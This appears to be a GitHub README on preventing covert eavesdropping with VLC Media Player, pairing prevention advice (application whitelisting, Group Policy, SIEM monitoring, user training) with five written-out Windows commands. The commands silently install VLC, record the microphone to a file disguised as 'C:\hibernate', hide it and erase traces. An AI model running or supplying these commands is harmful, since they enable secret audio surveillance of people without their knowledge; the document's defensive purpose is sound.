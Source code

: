 README.MD: Preventing Unauthorized Eavesdropping Using VLC Media Player
=======================================================================

Overview
--------

This document outlines a malicious process that can be used to eavesdrop on conversations using the microphone of a workstation. It also provides recommendations for organizations to prevent such unauthorized activities by blocking VLC Media Player or implementing log and event monitoring as deterrent measures.

Malicious Process
-----------------

The following commands demonstrate how an attacker can use VLC Media Player to record audio from a workstation's microphone and hide the recorded file:

1.  This command installs VLC Media Player silently, waits for 40 seconds, and then deletes the installer and any desktop shortcuts created.`  C:\vlcsetup.exe /S & ping 0.0.0.0 -n 40 >/nul & del /F /Q "%systemdrive%\Users\Public\Desktop\VLC media player\*\*" & del C:\vlcsetup.exe`
    
2. This command starts VLC in a single instance mode, captures audio from the default audio device, and saves the recording to a file named `hibernate` in the root of the C drive. The hibernate file mentioned in the commands is not a standard system file but rather a custom-named file used by the attacker to store the recorded audio. The name hibernate is chosen to make the file less conspicuous, as it might be mistaken for a system file related to hibernation. `C:\Progra~1\VideoLAN\VLC\vlc.exe --one-instance dshow:// :dshow-vdev=none :dshow-adev :sout=#transcode{vcodec=h264,scale=Auto,acodec=mpga,ab=128,channels=2,samplerate=44100}:duplicate{dst=std{access=file,mux="ogg",dst="C:\hibernate"}}``
    
3.  attrib +h +s C:\hibernateThis command sets the **hibernate** file as hidden and system, making it less likely to be noticed by the user.
    
4.  taskkill /f /im vlc\* & ping 0.0.0.0 -n 5 >/nul & attrib -h -s C:\hibernateThis command forcefully terminates any VLC processes, waits for 5 seconds, and then removes the hidden and system attributes from the **hibernate** file.
    
5.  del C:\hibernate & taskkill /f /im cmd\*This command deletes the **hibernate** file and forcefully terminates any Command Prompt processes.
    

Prevention Measures
-------------------

To prevent unauthorized eavesdropping using VLC Media Player, organizations can implement the following measures:

### 1\. Block VLC Media Player

*   **Application Whitelisting:** Implement application whitelisting to prevent unauthorized software, including VLC Media Player, from being installed or executed.
    
*   **Group Policy:** Use Group Policy Objects (GPO) to block the installation and execution of VLC Media Player on all workstations.
    

### 2\. Log and Event Monitoring

*   **Audit Logs:** Enable and monitor audit logs for any suspicious activities, such as the creation and deletion of files, and the execution of unauthorized processes.
    
*   **Event Monitoring:** Implement a Security Information and Event Management (SIEM) system to monitor and analyze events in real-time, allowing for quick detection and response to any unauthorized activities.
    

### 3\. User Education

*   **Training:** Educate users on the importance of not installing unauthorized software and the risks associated with phishing attacks and malicious downloads.
    
*   **Reporting:** Encourage users to report any suspicious activities or emails to the IT department.
    

Conclusion
----------

The malicious process outlined in this document highlights the potential security risks associated with unauthorized use of software like VLC Media Player. By implementing the prevention measures described, organizations can significantly reduce the likelihood of unauthorized eavesdropping and protect their sensitive information.

Regularly reviewing and updating security policies, procedures, and technologies is essential to maintain a strong security posture in the face of evolving threats.

**Disclaimer:** This document is intended for educational and informational purposes only. The misuse of the information provided can result in criminal charges brought against the persons in question. The authors will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this document to break the law.